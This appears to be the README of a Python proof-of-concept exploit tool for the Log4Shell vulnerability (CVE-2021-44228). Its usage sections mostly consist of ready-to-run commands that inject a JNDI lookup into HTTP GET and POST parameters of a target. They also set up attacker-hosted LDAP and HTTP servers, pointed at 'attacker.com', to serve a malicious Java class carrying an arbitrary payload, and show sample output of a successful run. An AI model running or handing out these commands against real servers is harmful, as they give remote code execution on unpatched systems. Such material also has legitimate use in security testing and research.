 # Python Log4RCE

An all-in-one pure Python3 PoC for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228).

## Sample

```bash
> python3 log4rce.py --target "linux" --payload "PAYLOAD" http -X POST --url "http://localhost:8080/" --data "address=###"
```

```
INFO:HTTP:Running on local port 1337
INFO:HTTP:Remote target is http://127.0.0.1:1337/LinuxExploit.class
INFO:LDAP:Running on local port 1387
INFO:Log4J:Sending payload to http://localhost:8080/
INFO:LDAP:Query from ('127.0.0.1', 42554)
INFO:HTTP:Request from ('127.0.0.1', 55328) to /LinuxExploit.class
INFO:Log4J:Done!
```

## Usage

This is a CLI tool. All options can be found in the help menu:

```bash
python3 log4rce.py --help
```

The list is pretty extensive, therefore the following will give you a summary of the functionality.

### Attack Modes

The tool allows you to use a few attack modes. These attacks are extensions of the `Log4RCE` class.

#### HTTP

You can perform an automated HTTP request attack on a target URL.

You can perform a GET request as follows:

```bash
python3 log4rce.py http --url "http://www.vuln.com:1234/?vuln_param=###&param=123" --headers="P1=123&P2=123"
```

You can perform a POST request as follows:

```bash
python3 log4rce.py http -X POST --url "http://www.vuln.com:1234/" --data "vuln_param=###&param=123" --headers="P1=123&P2=123"
```

The previous will inject the JNDI tag into `###`.

#### Manual

If you cannot use any of the previous, use this mode to dump the JDNI tag:

```bash
python3 log4rce.py manual
```

### Network Settings

The tool allows extensive customization for most network configuration. All the internal servers can be modified to point to different locations according the the remote settings.

#### HTTP Server

You can configure the HTTP server using the following parameters:

```bash
python3 log4rce.py --http_port 1234 --http_rport 12345 --http_host "attacker.com"
```

```
http_port: The local port to run the server on.
http_rport: The port that a remote machine accesses.
http_host: The host name/IP a remote machine accesses. 
```

#### LDAP Server

You can configure the LDAP server using the following parameters:

```bash
python3 log4rce.py --ldap_port 1234 --ldap_rport 12345 --ldap_host "attacker.com"
```

```
ldap_port: The local port to run the server on.
ldap_rport: The port that a remote machine accesses.
ldap_host: The host name/IP a remote machine accesses. 
```

### Customization

The tool allows can handle some customization. The following lists some functionality you may be interested in.

### Injecting Payload

You can inject a payload into the Java class using:

```bash
python3 log4rce.py --payload "PAYLOAD"
```

The payload will be injected into `"###"` strings.

### Custom Java Payload

You can build your own Java class using the following. 

```bash
javac /path/to/Exploit.java
```

The resulting `.class` can be run using:

```bash
python3 log4rce.py --java_class "/path/to/Exploit.class" ...
```

Note: You can add a string `"###"` to allow payload injection.
